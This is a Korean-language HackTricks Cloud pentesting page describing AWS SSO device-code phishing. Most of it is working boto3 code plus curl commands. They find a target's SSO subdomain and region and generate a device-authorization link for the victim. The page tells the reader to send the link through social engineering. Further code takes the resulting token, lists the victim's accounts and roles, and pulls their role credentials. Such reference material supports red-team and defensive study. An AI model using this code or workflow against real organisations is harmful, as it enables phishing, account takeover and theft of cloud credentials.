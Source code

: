 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS 디바이스 코드 피싱

[**이 블로그 게시물**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)에서 처음 제안된 바와 같이, AWS SSO를 사용하는 사용자에게 **링크**를 보내면 **사용자가 수락**할 경우 공격자는 **사용자를 가장할 수 있는 토큰**을 얻고 **Identity Center**에서 사용자가 접근할 수 있는 모든 역할에 접근할 수 있습니다.

이 공격을 수행하기 위한 전제 조건은 다음과 같습니다:

* 피해자는 **Identity Center**를 사용해야 합니다.
* 공격자는 피해자가 사용하는 **서브도메인**을 알아야 합니다 `<victimsub>.awsapps.com/start`

이전 정보만으로도, **공격자는 사용자에게 링크를 보낼 수 있으며**, **수락**할 경우 **공격자는 AWS 사용자** 계정에 접근할 수 있게 됩니다.

### 공격

1. **서브도메인 찾기**

공격자의 첫 번째 단계는 피해자 회사가 Identity Center에서 사용하는 서브도메인을 찾는 것입니다. 이는 **OSINT** 또는 **추측 + BF**를 통해 수행할 수 있으며, 대부분의 회사는 여기에서 자신의 이름이나 이름의 변형을 사용할 것입니다.

이 정보를 통해 Identity Center가 구성된 지역을 알 수 있습니다:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **피해자를 위한 링크 생성 및 전송**

다음 코드를 실행하여 피해자가 인증할 수 있도록 AWS SSO 로그인 링크를 생성합니다.\
데모를 위해 이 코드를 파이썬 콘솔에서 실행하고 종료하지 마십시오. 나중에 토큰을 얻기 위해 일부 객체가 필요합니다:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
전문적인 소셜 엔지니어링 기술을 사용하여 생성된 링크를 피해자에게 보내세요!

3. **피해자가 수락할 때까지 기다리세요**

피해자가 **이미 AWS에 로그인한 경우** 권한 부여를 수락하기만 하면 되고, 로그인하지 않은 경우 **로그인한 후 권한 부여를 수락해야 합니다**.\
현재 프롬프트는 다음과 같이 보입니다:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO 액세스 토큰 가져오기**

피해자가 프롬프트를 수락하면, 이 코드를 실행하여 **사용자를 가장하여 SSO 토큰을 생성하세요**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO 액세스 토큰은 **8시간 동안 유효합니다**.

5. **사용자 가장하기**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### 피싱할 수 없는 MFA 피싱

이전 공격이 **"피싱할 수 없는 MFA" (webAuth)가 사용되고 있어도 작동한다는 사실은 재미있습니다**. 이는 이전 **워크플로우가 사용된 OAuth 도메인을 벗어나지 않기 때문입니다**. 사용자가 로그인 도메인을 대체해야 하는 다른 피싱 공격과는 달리, 장치 코드 워크플로우가 준비되어 있어 **코드가 장치에 의해 알려져** 있으며 사용자는 다른 기기에서도 로그인할 수 있습니다. 프롬프트를 수락하면, 장치는 **초기 코드를 알고 있기만 하면** 사용자의 **자격 증명을 검색할 수 있습니다**.

자세한 정보는 [**이 게시물을 확인하세요**](https://mjg59.dreamwidth.org/62175.html).

### 자동 도구

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## 참고 문헌

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
